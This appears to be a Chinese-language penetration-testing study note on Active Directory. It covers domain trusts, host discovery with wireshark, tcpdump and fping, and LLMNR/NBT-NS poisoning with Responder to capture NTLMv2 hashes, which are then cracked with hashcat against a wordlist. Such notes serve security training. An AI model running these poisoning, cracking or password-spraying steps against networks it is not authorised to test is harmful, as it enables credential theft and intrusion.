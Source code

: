 ## Active Directory Trusts
>[!note]
>用於連結兩個 Active Directory domains 或是 Forests，讓Domain A的User可以存取Domain B的資源，有分成one-way trust relationship及 two-way trust relationship

>One-way Trust direction : 在單向信任關係中，信任方向是單向的，而不是雙向的。 在單向信任關係下，**網域 A 信任網域 B，但網域 B 並不信任網域 A**。 實際上，這表示網域 A 的使用者可以通過驗證來存取網域 B 的資源；然而，網域 B 的使用者則無法通過驗證來存取網域 A 的資源。(The direction of trust goes from Domain A to Domain B, and the directory of access goes from domain B to domain A.)

> Two-way Trust direction : 在雙向信任關係中，信任是雙向的，這表示兩個網域中的使用者都可以存取對方網域的資源。 例如，若網域 A 與網域 B 建立了雙向信任關係，代表網域 A 的使用者可以通過驗證來存取網域 B 的資源，而網域 B 的使用者也可以通過驗證來存取網域 A 的資源。

>Transitive and Non-transitive trusts : 



# 內網偵蒐
>[!WARNING]
>在進入內往後，可能需要先瞭解內網友甚麼東西，比如說主機發現，服務發現等等
- 主要目標
	- AD Users : 列舉有效的使用者以及password spraying
	- AD Joined Computers : Domain Controllers, file servers, SQL servers, web servers, Exchange mail servers, database servers, etc.
	- Key Services : Kerberos, NetBIOS, LDAP, DNS
	- Vulnerable Hosts and Services : 就漏洞、設定錯誤等等可以利用的方法
## 存活主機列舉手段
>[!WARNING]
>希望透過這些手段可以知道，可以知道這個網段裡面有哪些主機在運作

>[!NOTE]
>我們希望透過Layer2(ARP、mDNS)、Layer3(ping)的協定來鎖定內網友那些主機，並透過Namp掃描就可以分析出那臺是AD。
### Wireshark
```shell-session
sudo -E wireshark
```
### Tcpdump
```shell-session
sudo tcpdump -i ens224 
```
```
tcpdump -i eth0 icmp
```
### Responder
```bash
sudo responder -I ens224 -A 
```
### FPing Active Checks
```shell-session
fping -asgq 172.16.5.0/23
```
## 透過Responeder抓取NTLMv2 
如果有網路裡面有`\\print01.inlanefreight.local` ，但是有人打錯成`\\printer01.inlanefreight.local`，電腦會用`LLMNR/NBT-NS`去問整個網路哪裡有`\\printer01.inlanefreight.local`，我們就可以吃到NTLMv2的hash跟帳號。
### Linux版本
- responder
```bash
sudo responder -I ens224 
```
- hashcat
```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```